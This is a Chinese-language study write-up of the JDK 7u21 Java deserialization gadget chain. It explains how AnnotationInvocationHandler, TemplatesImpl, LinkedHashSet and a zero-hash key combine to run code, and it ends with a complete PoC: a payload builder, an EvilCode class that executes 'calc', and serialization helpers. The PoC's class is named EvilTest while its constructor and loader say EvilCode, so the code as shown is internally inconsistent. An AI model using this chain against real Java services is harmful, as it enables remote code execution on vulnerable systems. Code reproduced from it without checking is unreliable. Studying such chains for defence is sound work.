

# JDK 7u21 反序列化漏洞

JDK 7u21 是一个原生的反序列化利用链，主要通过`AnnotationInvocationHandler`和`TemplatesImpl`两个类来构造。

## euqalsImpl

我们还是首先关注`AnnotationInvocationHandler`类的invoke()方法

```java
    public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        assert paramTypes.length == 0;
        if (member.equals("toString"))
            return toStringImpl();
        if (member.equals("hashCode"))
            return hashCodeImpl();
        if (member.equals("annotationType"))
            return type;

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
```

此前我们在CC1-LazyMap链中主要利用了后面的get方法，而在这条链里我们主要关注前面的if。

当方法名为`equals`且参数个数为1时，会调用`equalsImpl`方法

```java title="equalsImpl"
    private Boolean equalsImpl(Object o) {
        if (o == this)
            return true;

        if (!type.isInstance(o))
            return false;
        for (Method memberMethod : getMemberMethods()) {
            String member = memberMethod.getName();
            Object ourValue = memberValues.get(member);
            Object hisValue = null;
            AnnotationInvocationHandler hisHandler = asOneOfUs(o);
            if (hisHandler != null) {
                hisValue = hisHandler.memberValues.get(member);
            } else {
                try {
                    hisValue = memberMethod.invoke(o); // (1)
                } catch (InvocationTargetException e) {
                    return false;
                } catch (IllegalAccessException e) {
                    throw new AssertionError(e);
                }
            }
            if (!memberValueEquals(ourValue, hisValue))
                return false;
        }
        return true;
    }
```

其中`(1)`处的`hisValue = memberMethod.invoke(o)`调用了invoke方法，memberMethod 来自于`this.type.getDeclaredMethods()`，这里的type是通过构造函数传进的一个Annotation的子类

```java
    // 构造函数
    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        this.type = type;
        this.memberValues = memberValues;
    }

    // MemberMethods
    private Method[] getMemberMethods() {
        if (memberMethods == null) {
            memberMethods = AccessController.doPrivileged(
                new PrivilegedAction<Method[]>() {
                    public Method[] run() {
                        final Method[] mm = type.getDeclaredMethods();
                        AccessibleObject.setAccessible(mm, true);
                        return mm;
                    }
                });
        }
        return memberMethods;
    }
```

也就是说，在`equalsImpl`中，遍历了`this.type`中的所有方法并且执行`invoke(o)`。

## TemplatesImpl

我们令type为TemplatesImpl类，将o(即执行方法的对象)置为恶意构造的TemplatesImpl实例，则`equalsImpl`会调用`TemplatesImpl.getOutputProperties()`，加载类字节码实现RCE。

TemplatesImpl利用参考[Fastjson](/Sec/Web/Deserial/Fastjson/#1224)

## LinkedHashSet

为了触发invoke，我们需要寻找能够调用`equals`方法的类。

这里通常的利用是通过LinkedHashSet，LinkedHashSet继承自HashSet，HashSet在`readObject`时会调用`putForCreate`方法向集合中添加元素

```java title="HashSet"
    private void putForCreate(K key, V value) {
        int hash = null == key ? 0 : hash(key);
        int i = indexFor(hash, table.length);

        /**
         * Look for preexisting entry for key.  This will never happen for
         * clone or deserialize.  It will only happen for construction if the
         * input Map is a sorted map whose ordering is inconsistent w/ equals.
         */
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || (key != null && key.equals(k)))) {
                e.value = value;
                return;
            }
        }

        createEntry(hash, key, value, i);
    }
    private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                               loadFactor);

        // set hashSeed (can only happen after VM boot)
        Holder.UNSAFE.putIntVolatile(this, Holder.HASHSEED_OFFSET,
                sun.misc.Hashing.randomHashSeed(this));

        // Read in number of buckets and allocate the bucket array;
        s.readInt(); // ignored

        // Read number of mappings
        int mappings = s.readInt();
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                               mappings);

        int initialCapacity = (int) Math.min(
                // capacity chosen by number of mappings
                // and desired load (if >= 0.25)
                mappings * Math.min(1 / loadFactor, 4.0f),
                // we have limits...
                HashMap.MAXIMUM_CAPACITY);
        int capacity = 1;
        // find smallest power of two which holds all mappings
        while (capacity < initialCapacity) {
            capacity <<= 1;
        }

        table = new Entry[capacity];
        threshold = (int) Math.min(capacity * loadFactor, MAXIMUM_CAPACITY + 1);
        useAltHashing = sun.misc.VM.isBooted() &&
                (capacity >= Holder.ALTERNATIVE_HASHING_THRESHOLD);

        init();  // Give subclass a chance to do its thing.

        // Read the keys and values, and put the mappings in the HashMap
        for (int i=0; i<mappings; i++) {
            K key = (K) s.readObject();
            V value = (V) s.readObject();
            putForCreate(key, value);
        }
    }
```

发现在`putForCreate`方法中`if (e.hash == hash && ((k = e.key) == key || (key != null && key.equals(k))))` 调用了`equals`方法，需要满足条件哈希值相等但key不相等。

现在hashset中添加`TemplatesImpl`，将key置为代理对象proxyInstance插入时即可进入`proxyInstance.equals(TemplatesImpl)`方法触发`AnnotationInvocationHandler`的invoke。

要满足key不相同的条件只需传入的两个元素key不是相同的类即可。难点在于让代理对象的哈希值和`TemplatesImpl`对象的哈希值相同，`TemplatesImpl`的`hashCode()`是个`Native()`方法，每次运行都会改变，不可控。

对于代理对象的`hashCode()`，它也会触发invoke进入`AnnotationInvocationHandler`的`hashCodeImpl`方法

```java title="hashCodeImpl"
    private int hashCodeImpl() {
        int result = 0;
        for (Map.Entry<String, Object> e : memberValues.entrySet()) {
            result += (127 * e.getKey().hashCode()) ^ memberValueHashCode(e.getValue());
        }
        return result;
    }    
```

计算方法为遍历memberValues，对`(127*hash(key))^hash(value)`求和，我们的memberVlues只需要一个元素即可，因此我们需要满足等式`(127*hash(key))^hash(value)==TemplatesImpl.hashCode()`。

一个巧妙地思路是令hash(key)为0，这样只需满足`hash(value)==TemplatesImpl.hashCode()`即，而我们可以将value置为插入HashSet的`TemplatesImpl`实例，这样哈希值就相同了。常用哈希值为0的key：`f5a5a608`。

至此，整条利用链已经构造完成。

## PoC

=== "Jdk7u21.java"

    ```java
    package cc.jdk7u21;

    import cc.util.SerializeUtil;
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

    import javax.xml.transform.Templates;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Proxy;
    import java.util.HashMap;
    import java.util.HashSet;
    import java.util.LinkedHashSet;
    import java.util.Map;

    public class Jdk7u21 {
        public static void main(String[] args) throws Exception{
            byte[] evilCode = SerializeUtil.getEvilCode();
            TemplatesImpl templates = new TemplatesImpl();
            SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
            SerializeUtil.setFieldValue(templates,"_name","feng");

            HashMap<String, Object> memberValues = new HashMap<String, Object>();
            memberValues.put("f5a5a608","feng");
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
            cons.setAccessible(true);
            InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);


            Templates proxy = (Templates) Proxy.newProxyInstance(
                    Templates.class.getClassLoader(),
                    new Class[]{Templates.class},
                    handler
            );


            HashSet hashSet = new LinkedHashSet();
            hashSet.add(templates);
            hashSet.add(proxy);

            memberValues.put("f5a5a608",templates);
            byte[] bytes = SerializeUtil.serialize(hashSet);
            SerializeUtil.unserialize(bytes);
        }
    }
    ```

=== "EvilCode.java"

    ```java
    package cc.jdk7u21;

    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

    public class EvilTest extends AbstractTranslet {

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

        }
        public EvilCode() throws Exception{
            Runtime.getRuntime().exec("calc");
        }
    }
    ```

=== "SerializeUtil.java"

    ```java
    package cc.jdk7u21;

    import javassist.ClassPool;
    import javassist.CtClass;

    import java.io.ByteArrayInputStream;
    import java.io.ByteArrayOutputStream;
    import java.io.ObjectInputStream;
    import java.io.ObjectOutputStream;
    import java.lang.reflect.Field;

    public class SerializeUtil {
        public static Object getFieldValue(Object obj, String fieldName) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            return field.get(obj);
        }
        public static byte[] getEvilCode() throws Exception{
            ClassPool pool = ClassPool.getDefault();
            CtClass clazzz = pool.get("EvilCode");
            byte[] code = clazzz.toBytecode();
            return code;
        }

        public static void unserialize(byte[] bytes) throws Exception{
            try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
                ObjectInputStream oin = new ObjectInputStream(bain)){
                oin.readObject();
            }
        }

        public static byte[] serialize(Object o) throws Exception{
            try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
                ObjectOutputStream oout = new ObjectOutputStream(baout)){
                oout.writeObject(o);
                return baout.toByteArray();
            }
        }
        public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj,value);
        }
    }
    ```

测试成功：

{loading="lazy"}

## 参考资料

- [原生反序列化链JDK7u21](https://ch0x01e.github.io/post/yuan-sheng-fan-xu-lie-hua-lian-jdk7u21/){target="_blank"}
- [JDK7u21反序列化链学习](https://blog.csdn.net/rfrder/article/details/120007644){target="_blank"}